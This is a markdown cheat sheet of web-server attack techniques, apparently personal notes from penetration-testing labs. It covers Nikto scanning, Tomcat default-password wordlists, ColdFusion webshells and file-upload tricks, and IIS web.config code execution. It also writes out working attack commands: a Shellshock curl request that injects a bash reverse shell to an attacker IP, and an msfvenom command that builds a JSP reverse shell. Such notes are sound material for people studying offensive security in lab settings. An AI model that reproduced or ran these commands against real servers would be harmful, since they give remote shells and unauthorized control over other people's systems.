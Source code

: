 ### Web Servers

#### Vulnerability Scanning

```bash
nikto -host=http://www.example.com -output outfile.txt
```

### Shellshock

1. If a webserver has a cgi-bin directory, scan it for files that execute (.cgi,.sh).

2. If you find one, attempt to exploit it using shellshock to get a reverse shell

   ```bash
   curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.29/8000 0>&1' http://10.10.10.56:80/cgi-bin/script.sh
   ```

### Apache Tomcat

There are password files specifically for this platform found at:

`/usr/share/metasploit-framework/data/wordlists/
tomcat_mgr_default_users.txt`

`/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt`

### ColdFusion

#### Webshells

1. Improved Webshell for CF: `~/opt/webshells/cfExec.cfm`
   - Also decrypts data source passwords on the fly
   - For commands, be sure to put `c:\windows\system32\cmd.exe ` in the 'Command' field, then `/c YOURCOMMAND` in the 'Options' field.
2. OG Webshell for CF:  `/usr/share/webshells/cfm/cfexec.cfm` 

#### Reverse Shell

Java works in ColdFusion:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.37 LPORT=8000 -f raw > rev_jsp_8000.jsp
```

#### Uploading Files

1. Find the folder for CFIDE at 'Debugging & Logging', 'Code Analyzer' which lets you browse the file system (common path is c:\inetpub\wwwroot\CFIDE)
2. Browse to 'Debugging & Logging', then 'Scheduled Tasks' fill in the following:
   1. URL - URL to file to download from Kali
   2. Check 'Save output to file'
   3. File: Save in the CFIDE folder found above
3. Visit the URL to trigger to file

### IIS

#### Default Installation Folders

IIS 8.5 - c:\inetpub\wwwroot

#### Reverse Shells

Note to self, with IIS, if msfvenom output for asp doesn't work (500 server error), try aspx for the msfvenom output format.

#### web.config

This file will often allow code execution and may be allowed by upload forms where other filetypes are restricted.

### Other Web Applications

See the individual guides for these in ./WebApps
